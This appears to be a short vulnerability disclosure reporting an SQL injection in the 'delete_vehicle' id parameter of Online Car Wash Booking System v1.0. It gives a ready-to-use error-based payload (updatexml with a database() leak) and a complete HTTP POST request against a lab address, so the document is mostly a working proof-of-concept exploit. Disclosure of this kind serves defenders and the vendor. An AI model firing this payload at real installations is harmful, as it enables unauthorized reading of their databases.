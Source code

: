 # Online Car Wash Booking System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15274/online-car-wash-booking-system-phpoop-free-source-code.html

Vulnerability File: /ocwbs/classes/Master.php?f=delete_vehicle

Vulnerability location: /ocwbs/classes/Master.php?f=delete_vehicle, id

[+] Payload: id=5' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+  // Leak place ---> id

```sql
POST /ocwbs/classes/Master.php?f=delete_vehicle HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/ocwbs/admin/?page=vehicles
Content-Length: 65
Cookie: PHPSESSID=qr1o26kvu55cqqitadqht6jna5
Connection: close

id=5' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/169300792-48ff6c62-1eab-4e19-88cb-a3c095db5af4.png)
